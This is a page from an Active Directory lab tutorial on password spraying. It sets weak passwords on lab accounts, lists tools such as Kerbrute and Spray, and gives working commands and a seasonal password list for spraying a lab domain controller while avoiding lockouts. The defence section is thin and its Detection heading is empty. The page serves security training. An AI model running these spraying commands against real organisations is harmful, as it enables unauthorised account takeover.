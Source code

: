 # Password Spraying

## Configuring

To implement the attack we need to set a weak password for one of the users we enumerated. The easiest way is by using the `net user` command in cmd. To change the password for `john` to `Welcome2022!` and `chris` to `Summer2022!` execute the following commands:

```
net user john Welcome2022! /domain
net user chris Summer2022! /domain
```

![](<../../../.gitbook/assets/image (3).png>)

## Attacking

### How it works

Password spraying is a type of brute force attack. An attacker will try a default password against a list of usernames. For example, an attacker uses the password `Welcome2022!` against many different accounts to avoid account lockout that would normally occur when brute-forcing a single account with many passwords.

**\<part about common used passwords>**

### Tools

* [Kerbrute](https://github.com/ropnop/kerbrute)
* [Spray](https://github.com/Greenwolf/Spray)
* [Crackmapexec](https://github.com/byt3bl33d3r/CrackMapExec)
* [Domainpasswordspray](https://github.com/dafthack/DomainPasswordSpray)
* [Rubeus](https://github.com/GhostPack/Rubeus)

### Executing the attack

#### Spraying a single password

To spray a single password from our kali machine we will use kerbrute again. But this time we will use the passwordspray functionality. We will spray the password `Welcome2022!` against all the users we enumerated earlier.

```
./kerbrute_linux_amd64 passwordspray -d amsterdam.bank.local --dc 10.0.0.3 ~/adlab/users.txt 'Welcome2022!'
```

![](<../../../.gitbook/assets/image (11).png>)

{% hint style="warning" %}
It is recommended to not spray more then one password every 30 minutes to prevent locking out accounts. We dont have access to the domain yet and can't retrieve the current passwordpolicy.
{% endhint %}

#### Spraying a small list of passwords

To spray a list of passwords we can use Spray. First create a `passwords.txt` file and copy the following passwords:

```
Spring2022!
Winter2022!
Autumn2022!
Summer2022!
Welcome2022!
Bank2022!
AmsterdamBank2022!
```

Since we don't want to lock any accounts we will try one password every 31 minutes by using the following command:

```
bash spray.sh smb 10.0.0.3 ~/adlab/users.txt ~/adlab/passwords.txt 1 31 passwordspray.txt
```

## Defending

### Recommendations

Implement a strong password policy:

{% content-ref url="../../../defence/hardening/strong-password-policy.md" %}
[strong-password-policy.md](../../../defence/hardening/strong-password-policy.md)
{% endcontent-ref %}

### Detection



## References

{% embed url="https://github.com/ropnop/kerbrute" %}

{% embed url="https://github.com/Greenwolf/Spray" %}

{% embed url="https://github.com/byt3bl33d3r/CrackMapExec" %}

{% embed url="https://github.com/dafthack/DomainPasswordSpray" %}


